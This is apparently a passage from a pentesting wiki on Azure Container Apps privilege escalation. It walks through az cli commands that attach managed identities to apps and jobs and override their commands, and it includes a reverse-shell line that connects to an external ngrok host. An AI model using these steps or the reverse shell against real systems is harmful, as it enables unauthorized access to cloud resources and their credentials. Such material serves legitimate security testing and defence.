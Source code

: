 These permissions allows to **attach a user managed identity** to a container app. This is very useful to escalate privileges in the container. Executing this action from the az cli also requires the permission `Microsoft.App/containerApps/listSecrets/action`.

To attach a user managed identity to a container group:

```bash
az containerapp identity assign -n <app-name> -g <res-group> --user-assigned myUserIdentityName
```

### `Microsoft.App/containerApps/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`, `Microsoft.App/managedEnvironments/join/action`

These permission allows to **create or update an application container** with a **user managed identity** attached to it. This is very useful to escalate privileges in the container.

```bash
# Get environments
az containerapp env list --resource-group Resource_Group_1

# Create app in a an environment
az containerapp create \
  --name <app-name> \
  --resource-group <res-group> \
  --image mcr.microsoft.com/oss/nginx/nginx:1.9.15-alpine \
  --cpu 1 --memory 1.0 \
  --user-assigned <user-asigned-identity-name> \
  --min-replicas 1 \
  --command "<reserse shell>"
```

> [!TIP]
> Note that with these permisions **other configurations of the app** can be modified which could allow to perform other privesc and post explaoitation attacks depending on the configuration of existing apps.

## Jobs

### `Microsoft.App/jobs/read`, `Microsoft.App/jobs/write`

Although jobs aren’t long‑running like container apps, you can exploit the ability to override the job’s command configuration when starting an execution. By crafting a custom job template (for example, replacing the default command with a reverse shell), you can gain shell access within the container that runs the job.

```bash
# Retrieve the current job configuration and save its template:
az containerapp job show --name <job-name> --resource-group <res-group> --output yaml > job-template.yaml

# Edit job-template.yaml to override the command with a reverse shell (or similar payload):
# For example, change the container’s command to:
#  - args:
#      - -c
#      - bash -i >& /dev/tcp/4.tcp.eu.ngrok.io/18224 0>&1
#      command:
#      - /bin/bash
#      image: mcr.microsoft.com/azureml/minimal-ubuntu22.04-py39-cpu-inference:latest

# Update and wait until the job is triggered (or change ths type to scheduled)
az containerapp job update --name deletemejob6 --resource-group Resource_Group_1 --yaml /tmp/changeme.yaml

# Start a new job execution with the modified template:
az containerapp job start --name <job-name> --resource-group <res-group> --yaml job-template.yaml
```